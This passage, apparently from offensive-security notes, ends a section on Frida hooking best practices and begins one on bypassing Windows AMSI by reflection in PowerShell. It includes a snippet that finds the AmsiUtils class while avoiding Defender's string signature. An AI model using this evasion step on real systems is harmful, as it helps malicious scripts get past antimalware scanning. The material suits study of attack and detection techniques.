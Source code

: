### Best Practices

1. **Error Handling**: Ensure your scripts handle errors gracefully to avoid crashing the target process.
2. **Logging**: Use logging to understand the behavior of the hooked functions.
3. **Security**: Be aware of the legal and ethical implications of using Frida for reverse engineering and hooking.

Frida provides a powerful and flexible framework for dynamic instrumentation, allowing you to analyze and modify the behavior of applications at runtime.

### Bypassing AMSI with Reflection in Powershell

- Windows Defender will cause a block when obtaining a reference to a class if one is including the AmsiUtils string.
- Strategy is to search for AmsiUtils using `GetTypes` and searching for the string "iUtils"
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}
```
